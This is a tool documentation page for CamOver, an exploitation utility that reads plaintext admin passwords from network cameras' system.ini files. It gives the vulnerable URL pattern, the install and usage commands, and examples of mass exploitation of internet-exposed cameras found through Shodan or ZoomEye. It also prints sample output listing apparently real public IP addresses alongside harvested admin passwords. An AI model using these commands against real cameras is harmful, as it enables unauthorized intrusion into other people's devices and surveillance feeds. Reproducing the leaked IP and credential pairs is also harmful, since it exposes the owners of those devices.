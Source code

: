 ```yaml
---
title : "CamOver"
# pre : ' '
description : "CamOver is a camera exploitation tool that allows to disclosure network camera admin password."
date : 2021-07-06T11:40:36+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CamOver

Is a camera exploitation tool that allows to disclosure network camera admin password.

**Features:**

- Exploits vulnerabilities in most popular camera models such as CCTV, GoAhead and Netwave.
- Optimized to exploit multiple cameras at one time from list with threading enabled.
- Simple CLI and API usage.

Tool effectively looks for `http://{address}/system.ini?loginuse&loginpas` and reads the `username:password` plaintext from the `system.ini` file.

## Installation

```plain
python3 -m pip install git+https://github.com/EntySec/CamOver
```

## Usage

```plain
camover [-h] [-t] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]
```

## Flags

```plain
CamOver is a camera exploitation tool that allows to disclosure network camera admin password.

optional arguments:
  -h, --help            show this help message and exit
  -t, --threads         Use threads for fastest work.
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

## Examples

### Exploiting single camera

Let's hack my camera just for fun.

```plain
camover -a 192.168.99.100
```

### Exploiting cameras from Internet

Let's try to use Shodan search engine to exploit cameras over Internet, we will use it with `-t` for fast exploitation.

```plain
camover -t --shodan [API-KEY]
```

```plain
$ camover -t --shodan [REDACTED]
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[+] (84.99.151.248:81) - admin:SFR_2E98
[+] (37.116.187.4:81) - admin:Bebbo000
[+] (42.118.152.148:80) - admin:admin
[+] (37.108.23.82:99) - admin:Misiek22!
[+] (59.29.194.241:81) - admin:core7772
[+] (212.127.221.137:80) - admin:quercus2403
[+] (118.71.30.128:80) - admin:admin
[+] (201.188.20.77:80) - admin:216828103
[+] (86.41.122.211:88) - admin:IPCAM
[+] (187.155.117.123:80) - admin:123456
[+] (151.63.22.212:81) - admin:242893
[+] (200.126.178.171:81) - admin:888888
```

### Exploiting cameras from input file

Let's try to use opened database of cameras with -t for fast exploitation.

```plain
camover -t -i cameras.txt -o passwords.txt
```

NOTE: It will exploit all cameras in `cameras.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

## URL List

- [Github.com - CamOver](https://github.com/EntySec/CamOver)
